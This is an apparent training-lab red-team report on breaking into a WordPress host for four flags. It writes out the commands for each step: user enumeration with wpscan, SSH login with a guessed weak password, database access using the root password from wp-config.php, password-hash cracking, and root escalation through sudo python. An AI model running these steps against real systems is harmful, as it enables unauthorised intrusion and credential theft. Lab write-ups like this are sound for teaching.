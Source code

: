 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110/24
```

This scan identifies the services below as potential points of entry:
- Target 1
  - port 22/SSH OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)

  - port 80/http Apache httpd 2.4.10 ((Debian)) 

  - port 111/rcpbind 2-4 (RPC#100000)

  - port 139 netbios-ssn Samba smbd 3.X-4.X (workgroup: WORKGROUP)

  - port 445 netbios-ssn Samba smbd 3.X-4.X (workgroup: WORKGROUP)

    ![image-20210823135345752](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823135345752.png)



The following vulnerabilities were identified on each target:
- Target 1
  - CVE-2019-12215 Full Path Disclosure (192.168.1.110/var/www/html/vendor)
  - CVE-2019-15653 html password disclosure - Password hash is visible in plaintext (192.168.1.110/service.html)
  - CVE-2017-7760 exposed username which allowed brute force of password information. User access to the wp-config.php file via nano. This exposed the root user and password.
  - CVE-2008-5161 ssh remote login was active at the user level with port 22 being open



### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _**b9bbcb33ellb80be759c4e844862482d**_![image-20210823145824135](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823145824135.png)
    
    - **Exploit Used**
      - WPScan to enumerate users of the Target 1 WordPress site
      - `$ wpscan --url http://192.168.1.110 --enumerate u`
      
      ![image-20210823130851383](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823130851383.png)![image-20210823130931761](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823130931761.png)![image-20210823140752395](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823140752395.png)![image-20210823140816805](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823140816805.png)
  
  - Targeting user Michael
    - Small manual Brute Force attack to guess/finds Michael’s password
    - User password is so weak, so obvious
    - Password: michael
  
  
  
  - `flag2.txt`: **fc3fd58dcdad9ab23faca6e9a3e581c**
    - **Exploit Used**
      - _TODO: **OpenSSH**_
      - `ssh michael@192.168.1.110`
      - `pw: michael`
      - `ls -l`
      - From the root directory`find . f -iname "*flag*"`
      - found flag2.txt in /var/www
      - `cat flag2.txt`![image-20210823141012328](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823141012328.png)





- **Flag3: afc01ab56b50591e7dccf93122770cd2**

- **Exploit Used:**

  Accessing MySQL database.

  - Found wp-config.php accessed database using Michael's login. MySQL was then used to traverse the database.

    ![img](https://lh4.googleusercontent.com/LTSv639ft89XswoJ-_amaYKWEOj1Amw1ZUHisZIpgwrj1pEDtUXAe8djKBJk2eZjjRe7q7IeVAtOqM5oVwE3MwOTWsmiQ2oTTOg2z2fFmx5OLWunmZy0yXT6loUtNhQtqbSBMH78=s0)

    

  - Flag 3 was found in wp_posts table in the wordpress database using these commands:

    - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1`

    - `show databases;`

    - `use wordpress;`

    - `show tables;`

    - `select * from wp_posts;`![img](https://lh5.googleusercontent.com/PrBsnB1Qnl8IgpX82z32ubX4eFfD4hXN5_BLvMpR4xXSsj61x544-G3VQ1Id70S0CQ_-m6QPLQ3PSP_FwkEiJ0U7HAdj8LRknHJKgksAJwmQXRWKlTEc5UUvqsetMWUdaiUbkyrw=s0)

      

      

      

  - **Flag4: 715dea6c055b9fe3337544932f2941ce**

  - Exploit Used:

    - Unsalted password hash and the use of privilege escalation with Python.

    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.

      - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next.

      - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.

        - Commands:

          - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1`
          - `show databases;`
          - `use wordpress;`
          - `show tables;`
          - `select * from wp_users;`
          - ![image-20210823151033747](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823151033747.png)

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python

          - Commands:

            - `ssh steven@192.168.1.110`
            - `pw:pink84`
            - `sudo -l`
            - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
            - `cd /root`
            - `ls`
            - `cat flag4.txt`

            ![image-20210823150644630](C:\Users\Jim Filsinger\AppData\Roaming\Typora\typora-user-images\image-20210823150644630.png)

